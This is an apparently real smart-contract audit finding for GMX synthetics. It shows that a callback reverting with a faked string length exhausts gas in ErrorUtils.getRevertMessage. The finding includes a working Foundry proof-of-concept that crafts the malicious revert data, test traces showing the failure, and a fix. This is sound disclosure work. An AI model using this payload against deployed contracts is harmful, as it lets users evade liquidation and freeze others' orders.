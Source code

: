 IllIllI

high

# Malicious revert reasons with faked lengths can disrupt order execution

## Summary

Malicious revert reasons with faked lengths can be used in the various order callbacks to disrupt order execution


## Vulnerability Detail

For most order-related operations, the user is allowed to provide the address of a contract on which a callback is triggered, whenever anything related to an order changes. These callbacks are executed with a limited amount of gas, under a try-catch block, in order to ensure that the user-supplied callback cannot affect subsequent processing. Whenever the callback reverts, the revert reason is fetched so that it can be emitted.

The code that parses the return bytes uses `abi.decode(result, (string))` to parse the "string", which relies on the first word of the data, to figure out how many bytes long the string is. Because the `results` variable is a memory variable, rather than calldata, any read past the end of the bytes is allowed, and is considered as value zero byte slots. If a malicious callback provides a reason "string" that is only a few bytes long, but sets the length to a very large number, when the decode call is made, it will try to read a string of that provided length, and will eventually run out of gas.

Note that this is not the same as providing an actual long string, because in that case, the callback will revert with an out of gas error, and there won't be a string to parse.


## Impact

A malicious user can use this attack in many different places, but they all stem from the bug in `ErrorUtils.getRevertMessage()`. One such attack would be that a user can prevent themselves from being liquidated or ADLed, by providing a malicious string in the revert reason in their [CallbackUtils.afterOrderExecution()](https://github.com/sherlock-audit/2023-02-gmx/blob/main/gmx-synthetics/contracts/order/OrderUtils.sol#L168) callback.

Othere places include the freezing of orders, bypassing pauses by having resting orders that can never execute until allowed, and preventing orders from being canceled when their normal execution reverts.


## Code Snippet

The input `result` is a memory variable, and it uses `abi.decode()` without checking the string's length against the calldata length, or any sort of maximum:
```solidity
// File: gmx-synthetics/contracts/utils/ErrorUtils.sol : ErrorUtils.getRevertMessage()   #1

6         // To get the revert reason, referenced from https://ethereum.stackexchange.com/a/83577
7  @>     function getRevertMessage(bytes memory result) internal pure returns (string memory, bool) {
8             // If the result length is less than 68, then the transaction either panicked or failed silently
9             if (result.length < 68) {
10                return ("", false);
11            }
12    
13            bytes4 errorSelector = getErrorSelectorFromData(result);
14    
15            // 0x08c379a0 is the selector for Error(string)
16            // referenced from https://blog.soliditylang.org/2021/04/21/custom-errors/
17            if (errorSelector == bytes4(0x08c379a0)) {
18                assembly {
19                    result := add(result, 0x04)
20                }
21    
22 @>             return (abi.decode(result, (string)), true);
23            }
24    
25            // error may be a custom error, return an empty string for this case
26            return ("", false);
27:       }
```
https://github.com/sherlock-audit/2023-02-gmx/blob/main/gmx-synthetics/contracts/utils/ErrorUtils.sol#L7-L27


The following test shows how this can be used to cause a revert, even when the gas to the callback is limited. I show two cases - one where there is no external wrapping of the calldata, and one where there is. Most of the examples of `getRevertMessage()` are the unwrapped variety, but some like the ones for `executeDeposit()` and `executeWithdrawal()` are wrapped, and would require the attack to also be applied to the cancellation callback, since those are unwrapped:


```solidity
pragma solidity 0.8.17;

import "forge-std/Test.sol";

contract BigString is Test {

    function test_unwrapped() external view returns (uint256) {
        try this.strFakedString{gas:10240}() {
        //try this.strFakedString() {
        //try this.strBigString{gas:10240}() {
        //try this.strNoIssue() {
        } catch (bytes memory reasonBytes) {
            (string memory reason, /* bool hasRevertMessage */) = getRevertMessage(reasonBytes);
            return 1;
        }
        return 0;
    }
    
    function test_wrapped() external view returns (uint256) {
        try this.test_unwrapped() {
        } catch (bytes memory reasonBytes) {
            (string memory reason, /* bool hasRevertMessage */) = getRevertMessage(reasonBytes);
            return 1;
        }
        return 0;
    }

    function strNoIssue() external pure returns (string memory) {
        assembly {
            mstore(0, 0x20)
            mstore(0x27, 0x07536561706f7274)
            revert(0, 0x60)
        }
    }
    function strBigString() external pure returns (string memory) {
        bytes memory str = new bytes(100000000000);
	revert(string(str));
    }

    function strFakedString() external pure returns (string memory) {
        assembly {
            let free_mem_ptr := mload(64)
            mstore(free_mem_ptr, 0x08c379a000000000000000000000000000000000000000000000000000000000)
            mstore(add(free_mem_ptr, 4), 32)
            //mstore(add(free_mem_ptr, 36), 12) // original
            mstore(add(free_mem_ptr, 36), 100000000000) // out of gas
            mstore(add(free_mem_ptr, 68), "Unauthorizedzzzzzz")
            revert(free_mem_ptr, 100)
        }
    }

    function getErrorSelectorFromData(bytes memory data) internal pure returns (bytes4) {
        bytes4 errorSelector;

        assembly {
            errorSelector := mload(add(data, 0x20))
        }

        return errorSelector;
    }
    // To get the revert reason, referenced from https://ethereum.stackexchange.com/a/83577
    function getRevertMessage(bytes memory result) internal pure returns (string memory, bool) {
        // If the result length is less than 68, then the transaction either panicked or failed silently
        if (result.length < 68) {
            return ("", false);
        }

        bytes4 errorSelector = getErrorSelectorFromData(result);

        // 0x08c379a0 is the selector for Error(string)
        // referenced from https://blog.soliditylang.org/2021/04/21/custom-errors/
        if (errorSelector == bytes4(0x08c379a0)) {
            assembly {
                result := add(result, 0x04)
            }

            return (abi.decode(result, (string)), true);
        }

        // error may be a custom error, return an empty string for this case
        return ("", false);
    }
}
```

Output:

```shell
$ forge test -vvvv
[⠰] Compiling...
No files changed, compilation skipped

Running 2 tests for src/T.sol:BigString
[FAIL. Reason: EvmError: OutOfGas] test_unwrapped():(uint256) (gas: 9223372036854754743)
Traces:
  [2220884625] BigString::test_unwrapped() 
    ├─ [257] BigString::strFakedString() [staticcall]
    │   └─ ← 0x08c379a00000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000174876e800556e617574686f72697a65647a7a7a7a7a7a0000000000000000000000000000
    └─ ← "EvmError: OutOfGas"

[PASS] test_wrapped():(uint256) (gas: 9079256848778899476)
Traces:
  [9079256848778899476] BigString::test_wrapped() 
    ├─ [2220884625] BigString::test_unwrapped() [staticcall]
    │   ├─ [257] BigString::strFakedString() [staticcall]
    │   │   └─ ← 0x08c379a00000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000174876e800556e617574686f72697a65647a7a7a7a7a7a0000000000000000000000000000
    │   └─ ← "EvmError: OutOfGas"
    └─ ← 1

Test result: FAILED. 1 passed; 1 failed; finished in 628.44ms

Failing tests:
Encountered 1 failing test in src/T.sol:BigString
[FAIL. Reason: EvmError: OutOfGas] test_unwrapped():(uint256) (gas: 9223372036854754743)

Encountered a total of 1 failing tests, 1 tests succeeded
```

## Tool used

Manual Review


## Recommendation

Have an upper limit on the length of a string that can be passed back, and manually update the length if the string's stated length is greater than the max.


